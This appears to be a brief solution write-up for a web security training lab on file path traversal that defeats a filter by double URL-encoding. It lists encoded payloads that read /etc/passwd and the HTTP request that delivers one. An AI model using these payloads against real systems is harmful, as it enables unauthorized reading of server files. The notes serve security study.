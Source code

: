 # File path traversal, traversal sequences stripped with superfluous URL-decode

## This lab contains a [file path traversal]() vulnerability in the display of product images.

## The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.

## To solve the lab, retrieve the contents of the `/etc/passwd` file.

../../../etc/passwd ==> ..%2F..%2F..%2Fetc%2Fpasswd

..%252F..%252F..%252Fetc%252Fpasswd //ctrl +u

../../../etc/passwd ==> %2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd // ctrl + u

### step1

GET /image?filename=16.jpg HTTP/1.1

### step2

GET /image?filename=..%252F..%252F..%252Fetc%252Fpasswd

test in repeater once successfull try on main intercept url
